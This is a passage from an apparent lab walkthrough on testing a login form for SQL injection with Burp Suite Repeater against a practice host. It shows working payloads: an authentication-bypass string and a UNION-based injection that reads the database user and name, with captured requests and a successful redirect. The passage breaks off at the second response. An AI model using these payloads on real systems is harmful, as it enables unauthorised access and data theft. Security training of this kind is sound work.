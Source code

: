 
### **Example 2: Login Form SQL Injection Testing**

**Lab Context:** Testing a login form for SQL injection vulnerabilities using Burp Suite Repeater.

#### **Capturing Login Request:**
```bash
# Step 1: Navigate to login page
# URL: http://demo.ine.local/login.php

# Step 2: Enter test credentials
Username: testuser
Password: testpass

# Step 3: Intercept POST request
# Request captured in Burp Suite Proxy
```

#### **Original POST Request:**
```http
POST /login.php HTTP/1.1
Host: demo.ine.local
Content-Type: application/x-www-form-urlencoded
Content-Length: 35

username=testuser&password=testpass
```

#### **Moving to Repeater for Testing:**
```bash
# Step 1: Right-click on captured request
# Step 2: Select "Send to Repeater"
# Step 3: Go to Repeater tab
# Step 4: Request appears ready for modification
```

#### **SQL Injection Payload Testing:**
```http
# Test 1: Basic SQL Injection
POST /login.php HTTP/1.1
Host: demo.ine.local
Content-Type: application/x-www-form-urlencoded
Content-Length: 47

username=admin' OR '1'='1'--&password=anything

# Response Analysis:
HTTP/1.1 302 Found
Location: /dashboard.php
Set-Cookie: admin_session=true
# SUCCESS: Redirected to dashboard without valid credentials!
```

```http
# Test 2: Union-based SQL Injection
POST /login.php HTTP/1.1
Host: demo.ine.local
Content-Type: application/x-www-form-urlencoded
Content-Length: 58

username=admin' UNION SELECT 1,user(),database()--&password=test

# Response Analysis:
HTTP/1.1 200 OK
Content-Type: text/html

```